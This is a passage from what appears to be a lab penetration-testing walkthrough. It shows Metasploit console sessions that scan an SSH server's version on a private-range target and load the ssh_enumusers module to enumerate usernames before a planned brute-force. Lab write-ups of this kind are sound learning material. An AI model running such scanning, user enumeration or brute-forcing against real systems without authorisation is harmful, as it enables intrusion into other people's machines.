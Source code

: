     msf auxiliary(ssh_version) > set RHOSTS 192.168.56.103
    RHOSTS => 192.168.56.103
    msf auxiliary(ssh_version) > run

    [*] 192.168.56.103:22, SSH server version: SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    
This verifies the version. Let's go to the next step!

At this stage I want to apply a vulnerability scanner like openvas, but I failed with the setup (didn't read the manual) and I can't 
be bothered with that since I want to get in the machine! I don't think a vulnerability scanner would add much at this stage any how.

Next up is a common SSH vulnerability: brute forcing, but fist...

### Enumeration of users

I glance over the result from the metasploit search I did earlier to find something that would help with the brute forcing and see `auxiliary/scanner/ssh/ssh_enumusers`.
Having a set of valid users will really help speed up the brute forcing so I check if it is applicable (edited for brevity):

    msf > info auxiliary/scanner/ssh/ssh_enumusers 

    Name: SSH Username Enumeration
    Module: auxiliary/scanner/ssh/ssh_enumusers
    License: Metasploit Framework License (BSD)
    Rank: Normal

    Description:
      This module uses a time-based attack to enumerate users on an 
      OpenSSH server. On some versions of OpenSSH under some 
      configurations, OpenSSH will return a "permission denied" error for 
      an invalid user faster than for a valid user.

    References:
      http://cvedetails.com/cve/2006-5229/
      http://www.osvdb.org/32721
      http://www.securityfocus.com/bid/20418


This doesn't tell me the affected version so I check the security focus [link](http://www.securityfocus.com/bid/20418) found under references. 
One of the affected versions is the one the target is running, sweet, let's do this!

    msf > use auxiliary/scanner/ssh/ssh_enumusers 
    msf auxiliary(ssh_enumusers) > show options

    Module options (auxiliary/scanner/ssh/ssh_enumusers):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       Proxies                     no        Use a proxy chain
       RHOSTS                      yes       The target address range or CIDR identifier
       RPORT      22               yes       The target port
       THREADS    1                yes       The number of concurrent threads
       THRESHOLD  10               yes       Amount of seconds needed before a user is considered found
       USER_FILE                   yes       File containing usernames, one per line
